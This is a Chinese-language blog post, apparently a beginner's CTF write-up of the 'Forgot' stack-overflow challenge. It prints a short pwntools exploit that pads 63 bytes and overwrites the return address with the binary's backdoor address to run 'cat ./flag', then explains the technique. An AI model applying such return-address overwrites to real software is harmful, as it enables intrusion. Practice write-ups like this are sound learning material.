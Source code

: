 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      一道简单的栈溢出Forgot   # 标题
subtitle:                           #副标题
date:       2019-08-01              # 时间
author:     F0RG3T                  # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - PWN
---
```


## 一道简单的栈溢出Forgot

2019.08.01 下午 5 点，一天烧脑的工作后，打开 ctf-wiki，开始二进制之路。

打开 ida，看到了 cat ./flag

![1](/img/pwn/2019-08-01/1.png)

根据以前对栈溢出的了解，存在字符串写入，修改函数返回地址于特定地址，完成 pwn  
遂开始了漫长的无头绪乱撞  

查阅了很多资料，甚至搜到了原题 wp，运用了 cyclic 技巧直接得到了偏移量...

![2](/img/pwn/2019-08-01/2.png)

编写 exp

```py
from pwn import *

p = process('forgot')

p.recv()
payload = 'A'*63 + p32(0x080486cc)

p.sendline(payload)
p.interactive()

```

得到结果

![3](/img/pwn/2019-08-01/3.png)


原理其实网上讲解很多了，我就说一下我的理解，该二进制文件所有都是在栈上进行。
在函数调用时首先将返回地址压栈，然后将参数压栈，之后 esp eip 改变，我们需要做的是讲 ret 返回地址覆盖成一个可控的地址。
该题给了后门，所以最重要的就是找偏移量，cyclic一把嗦。